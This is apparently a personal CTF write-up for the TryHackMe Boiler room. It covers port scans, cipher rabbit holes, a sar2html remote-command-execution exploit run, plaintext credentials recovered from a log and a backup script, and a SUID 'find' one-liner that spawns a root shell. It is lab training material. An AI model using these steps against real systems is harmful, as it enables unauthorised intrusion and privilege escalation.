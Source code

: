 ```yaml
---
title: Boiler CTF   
published: true
tags: [CTF, FTP, SSH, Webmin]
---
```


<https://tryhackme.com/room/boilerctf2> Intermediate level CTF

* * * 

# Notes

```
nmap scan

PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 61
80/tcp    open  http             syn-ack ttl 61
10000/tcp open  snet-sensor-mgmt syn-ack ttl 61
55007/tcp open  unknown          syn-ack ttl 61


=============================

gobuster scan

robots.txt

User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

the ASCII goes to base which goes to a MD5? 99b0660cd95adea327c54182baa51584

which is the answer to the rabbit hole question...99b0660cd95adea327c54182baa51584:kidding   

the nmap scan top port result seems to be openSSH 55007/tcp open  unknown          syn-ack ttl 61

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ telnet 10.10.100.87 55007                    
Trying 10.10.100.87...
Connected to 10.10.100.87.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```



# File extension after anon login

We can login to FTP anonymously, and get a note.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ cat .info.txt          
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

ROT13 Cipher

# What is on the highest port?

ssh we found earliar

# What's running on port 10000?

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ nmap -sC -sV -Pn 10.10.189.181 -p10000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-15 15:30 PST
Nmap scan report for 10.10.189.181
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-server-header: MiniServ/1.930
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

# Can you exploit the service running on that port? (yay/nay answer)

exploitdb doesn't seem to contain anything.

# What's CMS can you access? Keep enumerating, you'll know when you find it.

joomla

# The interesting file name in the folder?

during gobuster scan i found a folder `http://boiler-ctf.thm/joomla/_files/` inside is another cipher `VjJodmNITnBaU0JrWVdsemVRbz0K`. Which is twice base64 decoded to `whoopsie daisy`. another rabbit hole.

we do find a folder after adjusting the wordlist http://boiler-ctf.thm/joomla/_test which has a RCE in exploitdb.

executing the script

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Boiler-CTF]
└─$ python3 49344.py   
Enter The url => http://boiler-ctf.thm/joomla/_test/           
Command => ls
HPUX
Linux
SunOS
index.php
log.txt
sar2html
sarFILE

Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

# Where was the other users pass stored(no extension, just the name)?

after logging into the ssh on the top port checking the backup.sh

```
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "## ## ## ## ## ## ## ## ## ## " >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

# user.txt



# What did you exploit to get the privileged user?

`find / -perm -u=s 2>/dev/null`

find has SUID set which means it doesnt drop elevated priviliges. We can use it to execure commands and spawn a root shell. `find . -exec /bin/sh -p \; -quit`

# root.txt

cat root.txt


also the user.txt is not user.txt its .secret...